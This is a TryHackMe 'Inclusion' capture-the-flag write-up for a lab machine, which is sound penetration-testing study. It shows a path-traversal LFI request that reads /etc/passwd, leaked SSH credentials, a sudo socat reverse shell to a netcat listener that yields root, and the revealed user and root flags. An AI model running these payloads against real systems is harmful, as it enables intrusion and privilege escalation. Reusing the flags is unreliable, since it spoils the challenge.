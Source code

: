 # Inclusion
![](https://raw.githubusercontent.com/Adel-Ahmed777/TryHackMe-Writeups/main/TryHackMe%20Images/LFI-room-pic.png)

## Task 1
### Machine Deployment

## Task 2
### conducting nmap scan
```
sudo nmap -sC -sV -oN nmap/namp-scan 10.10.139.218

Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-20 16:17 AEDT
Nmap scan report for 10.10.139.218
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.41 seconds
```

### Execute an LFI attack
```
curl http://10.10.139.218/article?name=../../../../../../etc/passwd

<!DOCTYPE html>

<html>

    <body>



            root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false




    </body>

</html>
```
use the found credentials to connect through ssh
```
#falconfeast:rootpassword
```
### Connect through ssh
```
ssh falconfeast@10.10.139.218
```
use the following two commands to view the user flag
```
ls
cat user.txt

1. User Flag

<details><summary>CLICK TO REVEAL</summary>
<p>

```
60989655118397345799
```

</p>
</details>

```


### Escalate to root privileges
Let's check what privileges the current user has through the following command:
```
sudo -l

Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
The output shows that we can execute socat on the falconfeast user. gtfobins website can provide steps pn how to use the socat tool.

First, run an netcat listener in a new terminal window:
```
nc -lvnp 1234
```
Then runf the following command on the falconfeast user from the gtfobins website after I changed the $RHOST to my tunnel ip and $RPORT to 1234.
```
sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```
after that I got a root shell. Then, I made sure that the shell is stabilised:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then cd to the root directory and list the root flag
```
cd root
ls
```

2. Root Flag
```
42964104845495153909
```
